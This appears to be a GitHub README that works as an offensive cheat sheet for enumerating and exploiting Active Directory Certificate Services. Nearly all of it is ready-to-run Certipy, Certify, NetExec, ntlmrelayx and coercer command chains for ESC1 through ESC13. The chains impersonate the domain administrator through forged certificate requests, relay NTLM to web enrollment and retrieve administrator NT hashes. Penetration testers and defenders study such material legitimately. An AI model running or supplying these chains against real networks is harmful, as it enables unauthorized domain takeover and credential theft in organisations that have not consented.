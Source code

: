 ──(env)─(root㉿kali)-[/home/kali/new]
└─# python3 -m venv env && source env/bin/activate  



```markdown
# Active Directory Certificate Services (ADCS) Enumeration and Exploitation

This repository provides a comprehensive guide for enumerating and exploiting vulnerabilities in Active Directory Certificate Services (ADCS), leveraging tools such as Certipy, Certify, and CertExe. It covers a wide range of attacks and techniques, from finding vulnerable certificate templates to escalating privileges and authenticating with compromised certificates.

## Tools and Commands

### Enumeration
- **NetExec**
  - Find PKI Enrollment Services in Active Directory and Certificate Templates Names
  ```bash
  nxc ldap ip -u username -p password -M adcs
  ```

- **Certipy**
  - Search for vulnerable certificate templates
  ```bash
  certipy find -u username -p password -dc-ip ip -target dc -enabled -vulnerable -stdout
  ```

  - List CAs, servers, and search for vulnerable certificate templates
  ```bash
  certipy find -u username -p password -dc-ip ip -dns-tcp -ns ip -debug
  ```

- **Certify**
  - Search for vulnerable certificate templates
  ```bash
  Certify.exe find /vulnerable
  ```

### Attacks

#### ESC1: Create a New Machine Account
```bash
addcomputer.py domain/username:password -computer-name computer_name -computer-pass computer_password
```

- Use the ability to enroll as a normal user & provide a user-defined Subject Alternative Name (SAN)
  ```bash
  certipy req -u computer_name -p computer_password -ca ca -target domain -template template -upn administrator -dc-ip ip
  ```
  Or
  ```bash
  certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip
  ```

- If you run Certipy and see Minimum RSA Key Length: 4096, provide `-key-size 4096` to Certipy:
  ```bash
  certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip -key-size 4096
  ```

- Authenticate with the certificate and get the NT hash of the Administrator:
  ```bash
  certipy auth -pfx administrator.pfx -domain domain -username username -dc-ip ip
  ```

#### ESC3: Request a Certificate
```bash
certipy req -username username -password password -ca ca -target domain -template template
```

- Request a certificate on behalf of another user:
  ```bash
  certipy req username -password password -ca ca -target domain -template User -on-behalf-of 'domain\administrator' -pfx pfx_file
  ```

- Authenticate as Administrator:
  ```bash
  certipy auth -pfx administrator.pfx -dc-ip ip
  ```

#### ESC4: Overwrite Configuration to Make It Vulnerable to ESC1
```bash
certipy template -username username -password password -template template -save-old -dc-ip ip
certipy req -u username -p password -dc-ip ip -ca ca -target dc -template template -upn administrator@domain
certipy auth -pfx administrator.pfx -domain domain -username administrator -dc-ip ip
```

#### ESC6
```bash
certipy req -username administrator@domain -password password -ca ca -target domain -template template -upn administrator@domain
```

#### ESC7: Enable SubCA Template on the CA
1. Grant Manage Certificates access right:
   ```bash
   certipy ca -ca ca -add-officer username -username username@domain -password password -dc-ip ip -dns-tcp -ns ip
   ```

2. Enable the SubCA template:
   ```bash
   certipy ca -ca ca -enable-template SubCA -username username@domain -password password -dc-ip ip -dns-tcp -ns ip
   ```

3. Issue the failed certificate request:
   ```bash
   certipy ca -ca ca -issue-request request_ID -username username@domain -password password
   ```

4. Retrieve the issued certificate:
   ```bash
   certipy req -username username@domain -password password -ca ca -target ip -retrieve request_ID
   ```

5. Authenticate with the certificate and get the NT hash of the Administrator:
   ```bash
   certipy auth -pfx pfx_file -domain domain -username username -dc-ip ip
   ```

#### ESC8: Exploit ADCS Server with Web Enrollment
```bash
ntlmrelayx.py -t http://domain/certsrv/certfnsh.asp -smb2support --adcs --template template --no-http-server --no-wcf-server --no-raw-server
coercer coerce -u username -p password -l ws_ip -t dc_ip --always-continue
certipy auth -pfx administrator.pfx
```

#### ESC9: Exploit ESC9 with Certipy Shadow
```bash
certipy shadow auto -username username@domain -hashes :hash -account target_username
certipy account update -username username@domain -hashes :hash -user target_username -upn administrator
certipy req -username target_username@domain -hashes :target_hash -ca ca -template template -target $DC_IP
certipy account update -username username@domain -hashes :hash -user target_username -upn administrator
certipy auth -pfx administrator.pfx -domain domain
```

#### ESC13: Advanced Certificate Requests
```bash
certipy req -u username -p password -ca ca -target domain -template template -dc-ip ip -key-size 4096
python3 gettgtpkinit.py -cert-pfx pfx_file domain/username ccache_file -dc-ip ip -v
```

## Resources

- [ADCS Abuse - PPN](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse)
- [Hacktricks - ADCS Enumeration](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)
- [SwisskyRepo - ADCS Certificate Services](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-certificate-services/#adcs-enumeration)
- [Vulndev.io - ADCS Walkthrough](https://vulndev.io/2023/07/01/vl-intercept-walkthrough/)
- [Logan Goins - ADCS Attack](https://logan-goins.com/2024-05-04-ADCS/)
- [Bulletproof - ADCS ESC7 Attack](https://www.tarlogic.com/blog/ad-cs-esc7-attack/)
- [Black Hills InfoSec - ADCS Exploits](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/)
- [More Articles on ADCS Exploitation](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-2/)

## Tools

- [Certipy](https://github.com/ly4k/Certipy)
- [Certify](https://github.com/GhostPack/Certify)
```
